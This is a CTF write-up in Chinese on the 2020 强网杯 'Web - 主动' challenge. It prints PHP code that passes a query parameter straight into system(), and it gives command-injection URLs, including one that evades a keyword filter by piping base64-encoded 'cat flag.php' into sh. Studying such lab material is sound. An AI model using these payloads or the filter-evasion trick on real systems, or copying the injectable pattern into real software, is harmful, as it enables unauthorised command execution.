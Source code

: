 ```yaml
---
title: Web - 主动
description: 2020 | 强网杯 | 强网先锋
---
```


## 解题思路

- 首页给出了网站的源码，仅过滤变量`ip`中的关键词`flag`，可以利用`system`函数执行命令<br>
    ```php
    <?php
    highlight_file("index.php");
    if(preg_match("/flag/i", $_GET["ip"]))
    {
        die("no flag");
    }
    system("ping -c 3 $_GET[ip]");
    ?>
    ```
- `http://39.96.23.228:10002?ip=|ls .`查看当前目录，发现`flag.php`<br>
![发现 flag 文件](img/initiative01.jpg)
- 使用 Base64 编码绕过，`http://39.96.23.228:10002?ip=| echo Y2F0IGZsYWcucGhw | base64 -d | sh`，由于`highlight_file`函数的影响，未直接在网页上显示，可用查看器查看<br>
![获得 Flag](img/initiative02.jpg)